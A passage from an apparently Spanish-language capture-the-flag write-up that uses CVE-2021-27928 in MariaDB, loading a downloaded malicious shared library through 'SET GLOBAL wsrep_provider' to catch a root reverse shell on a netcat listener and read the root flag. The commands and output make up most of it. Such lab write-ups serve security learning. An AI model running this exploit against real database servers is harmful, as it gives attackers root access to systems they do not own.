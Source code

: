 ``` 
HTTP request sent, awaiting response... 200 OK
Length: 476 [application/octet-stream]
Saving to: ‘CVE-2021-27928.so’

CVE-2021-27928.so                                0%[                                                                                                   ]       0  --.-KB/s              CVE-2021-27928.so                              100%[==================================================================================================>]     476  --.-KB/s    in 0s      

2023-05-23 11:54:12 (73.2 MB/s) - ‘CVE-2021-27928.so’ saved [476/476]
```
Y le doy permisos de ejecución:
```
ipmi-svc@shibboleth:/tmp$ chmod +x CVE-2021-27928.so
```
Antes de nada me pongo en escucha ya:
```
❯ nc -nlvp 443
listening on [any] 443 ...
```
Siguiente paso, abrirme el mysql y ejectuar la siguiente linea de comando; SET GLOBAL wsrep_provider="/tmp/CVE-2021-27928.so";
```
ipmi-svc@shibboleth:/tmp$ mysql -uzabbix -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 1946
Server version: 10.3.25-MariaDB-0ubuntu0.20.04.1 Ubuntu 20.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> SET GLOBAL wsrep_provider="/tmp/CVE-2021-27928.so";
ERROR 2013 (HY000): Lost connection to MySQL server during query
```
Y a pesar del error, que confunde un poco x), hemos conseguido una reverse shell y con el usuario root:
``` 
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.124] 47164
whoami
root
hostname -I
10.10.11.124 dead:beef::250:56ff:feb9:5e97 
```
Nos lanzamos una consola, aunque no sea perfecta(sin el tratamiento), y leemos la flag de root.
```
script /dev/null -c bash
Script started, file is /dev/null
root@shibboleth:/var/lib/mysql# cat /root/root.txt
cat /root/root.txt
f4a72470813a755e0220cb7*********
```
